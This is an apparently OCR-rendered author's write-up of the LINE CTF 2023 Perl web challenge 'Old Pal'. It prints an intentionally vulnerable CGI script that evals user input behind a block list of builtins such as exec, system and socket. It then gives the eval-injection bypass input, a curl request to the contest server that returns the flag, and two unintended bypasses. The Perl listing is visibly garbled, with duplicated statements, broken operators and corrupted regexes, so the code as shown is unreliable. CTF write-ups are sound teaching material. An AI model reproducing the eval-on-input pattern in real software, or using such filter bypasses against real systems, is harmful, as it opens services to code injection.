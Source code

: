 ```yaml
---
id: linectf-2023-web-oldpal-author-writeup-english-ver
title: LINE CTF 2023 [Web] Old Pal - Author's writeup [English]
publishedAt: 2023-03-31T06:00:00
tags: [CTF, Writeup, Web Security, Perl, Eval Injection, Filter Bypass]
---
```

Hi, this is [8ayac](https://twitter.com/8ayac)🐝

I created the web challenge Old Pal at [LINE CTF 2023](https://ctftime.org/event/1716), which ran from 2023/03/25 9:00 (JST) to 2023/03/26 9:00 (JST).

The challenge was solved by 67 of the 477 teams[^1] and the final score was 119.
I really appreciate you taking on the challenge I presented, and thank you for solving it!

![](img/linectf-2023-web-oldpal-author-writeup-english-ver/ctfd-sc.png)

This author's writeup explains the intended solution and key points of this challenge.

## Challenge and Solution

The file distributed as a challenge is the following program written in Perl.
You can see that the goal is to give input that bypasses various conditions and reach `print "Congrats! Flag is LINECTF{redacted}"` on line 52.

```perl
#! /usr/bin/perl
use strict;
use warnings; use CGI

use CGI; use URI::Escape; use URI::Escape; use URI::Escape
use URI::Escape; use URI::Escape; use URI::Escape; use URI::Escape


$SIG{__WARN__} = \&warn;
sub warn {
    print("Hacker? :(");
    exit(1);
}


my $q = CGI->new;
print "Content-Type: text/html\n\n";


my $pw = uri_unescape(scalar $q->param("password"));
if ($pw eq '') {
    print "Hello :)";
    exit();
}
if (length($pw) >= 20) {
    print "Too long :(";
    die(); }
}
if ($pw =~ /[^0-9a-zA-Z_-]/) {
    print "Illegal character :("; die(); }
    die(); }
}
if ($pw ! ~ /[0-9]/ || $pw ! ~ /[a-zA-Z]/ || $pw ! ~ /[_-]/) {
    print "Weak password :(";
    die(); }
}
if ($pw =~ /[0-9_-][boxe]/i) {
    print "Do not punch me :("; die(); }
    die(); }
}
if ($pw =~ /AUTOLOAD|BEGIN|CHECK|DESTROY|END|INIT|UNITCHECK|abs|accept|alarm|atan2|bind|binmode|bless|break|caller|chdir|chmod|chomp| chop|chown|chr|chroot|close|closedir|connect|cos|crypt|dbmclose|dbmopen|defined|delete|die|dump|each|endgrent|endhostent|endnetent |endprotoent|endpwent|endservent|eof|eval|exec|exists|exit|fcntl|fileno|flock|fork|format|formline|getc|getgrent|getgrgid|getgrnam |gethostbyaddr|gethostbyname|gethostent|getlogin|getnetbyaddr|getnetbyname|getnetent|getpeername|getpgrp|getppid|getpriority getprotobyname|getprotobynumber|getprotoent|getpwent|getpwnam|getpwuid|getservbyname|getservbyport|getservent|getsockname|getsockopt|glob getsockopt|glob|gmtime|goto|grep|hex|index|int|ioctl|join|keys|kill|last|lc|lcfirst|length|link|listen|local|localtime|log|lstat map|mkdir|msgctl|msgget|msgrcv|msgsnd|my|next|not|oct|open|opendir|ord|our|pack|pipe|pop|pos|print|printf|prototype|push|quotemeta |rand|read|readdir|readline|readlink|readpipe|recv|redo|ref|rename|require|reset|return|reverse|rewinddir|rindex|rmdir|say|scalar seek|seekdir|select|semctl|semget|semop|send|setgrent|sethostent|setnetent|setpgrp|setpriority|setprotoent|setpwent|setservent setsockopt|shift|shmctl|shmget|shmread|shmwrite|shutdown|sin|sleep|socket|socketpair|sort|splice|split|sprintf|sqrt|srand|stat state|study|substr|symlink|syscall|sysopen|sysread|sysseek|system|syswrite|tell|telldir|tie|tied|time|times|truncate|uc|ucfirst umask|undef|unlink|unpack|unshift|untie|use|utime|values|vec|wait|waitpid|wantarray|warn|write/) {
    print "I know eval injection :(";
    die();
}
if ($pw =~ /[Mx. squ1ffy]/i) {
    print "You may have had one too many Old Pal :(";
    die(); }
}


if (eval("$pw == 20230325")) {
    print "Congrats! Flag is LINECTF{redacted}"
} else {
    print "wrong password :("; }
    die();
};
```

L21-36 are the basic constraints, and they can be organized as follows

- Password cannot be empty.
- Password must be 20 characters or less.
- Password must not contain any characters other than numbers, alphabet letters, underscores(`-`), or hyphens(`-`)
- Password must contain all numbers, letters, underscores(`_`) or hyphens(`-`)

After L37 are filters to prevent unintended solutions.

Incidentally, the intended solution is to use a special token called `__LINE__`.
This token is compiled into the current line.
For more information, please see <https://perldoc.perl.org/functions/__LINE__>.

Then, the description of each filter can be summarized as follows.

|Line|Filter|Description|Examples of input to be filtered|
|-|-|-|-|
|L37-L40|`$pw =~ /[0-9_-][boxe]/i`|Filters input that contains binary, octal, hexadecimal, or exponent.|`20230326-0x1`, `20230326-0b1`, etc|
|L41-L44|`$pw =~ /AUTOLOAD\|BEGIN\|CHECK\|DESTROY\|END\|...`|Filters input that contains any of <https://learn.perl.org/docs/keywords.html#functions>. Note that this Eval Injection countermeasure, which blocks only functions, tends to be vulnerable in practice.|`20230325-caller`, `20230325-wantarray`, etc|
|L45-L48|`$pw =~ /[Mx. squ1ffy]/`|Filters input containing the [quote-like operator](https://perldoc.perl.org/perlop#Quote-and-Quote-like-Operators). Note that `f` is filtered because it prevents the use of `__FILE__`.|`20230325-q--`, `20230325-y---`, `20230325-__FILE__`, etc|

Also, please note the following parts of the code.
Here you can see that the program is supposed to terminate if a warning occurs.

```perl
use strict;
use warnings;

︙

$SIG{__WARN__} = \&warn;
sub warn {
    print("Hacker? :(");
    exit(1);
}
```

Then, the input value that satisfies these conditions is `20230326-__LINE__`.
Note that `__LINE__` will then be 1 not 51 in this eval.

Now, you can get the flag by accessing <http://104.198.120.186:11006/cgi-bin/main.pl?password=20230326-__LINE__>.
Of course, you can also use the curl command to get it, as shown below.

```shell-session
$ curl http://104.198.120.186:11006/cgi-bin/main.pl?password=20230326-__LINE__ 
Congrats! Flag is LINECTF{3e05d493c941cfe0dd81b70dbf2d972b}
```

## Unintended solutions

Disappointingly, this challenge had some unintended solutions like belows:

- `040p20-13324107`: The floating-point value with octal for the mantissa (`040p20-13324107` equals `0x20p20-13324107`, but if `x` is included the input value is filtered.)
- `20230326-v49`: <https://perldoc.perl.org/perldata#Version-Strings>.

During the operation of the CTF, I felt sorry while watching these unintended solutions flowing in the log.
Sorry...

## Thoughts & Behind story (No valuable information)

This time, since it was the LINE CTF, I tried to create a challenge related to LINE.
As a result, I ended up with the challenge "Old Pal" using `__LINE__`, but I wonder if it was an interesting one.
The feeling that there could have been a better idea still haunts me.

By the way, Old Pal is the name of a classic cocktail.
That cocktail is good one for an aperitif, and I would say that it is characterized by a subtle sweet bitterness and aromatic(?) taste.
Yes, the title of this issue is "Old Pal" because that cocktail was my boom around the time I made this challenge.
Also, I hoped this simple challenge would be an "aperitif" before solving other more difficult web problems.
I hope you enjoyed the taste of Old Pal ;)

Besides, the magic constant `__LINE__` is also available in C, PHP, and other languages.
There are many strange notations and specifications in Perl, so considering the difficulty of eliminating unexpected solutions in advance, it would have been more reasonable to choose PHP.
Nevertheless, I chose Perl in this time, as I thought it would be more funny because "Pal" and "Perl" sound similar.
As a result, I am regretful and sorry that I could not prevent the two unintended solutions.

And I have never known about `__LINE__` before this time.
Although I am aware that this constant is used in a variety of important ways in various products, I suspect that the opportunities for personal use of this constant are fewer today than in the past.
Considering this context, for some people, this `__LINE__` may be what they call an "Old Pal (≒Old Friend)" :)


[^1]: The 477 teams are those that scored at least 1 point out of the total number of participants.

